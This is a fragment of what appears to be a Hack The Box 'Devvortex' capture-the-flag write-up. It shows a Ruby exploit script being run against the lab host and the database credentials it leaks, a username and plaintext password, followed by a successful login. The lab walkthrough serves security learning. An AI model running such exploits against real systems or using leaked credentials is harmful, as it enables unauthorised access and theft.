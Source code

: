 Exploit

```bash
ruby exploit.rb [http://dev.devvortex.htb](http://dev.devvortex.htb/)
```

![Untitled](../assets/img/htb/devvortex/Untitled%2016.png)

```bash
User: lewis
Pass: P4ntherg0t1n5r3c0n##
Usuario do Banco
```

Login successful 

![Untitled](../assets/img/htb/devvortex/Untitled%2017.png)
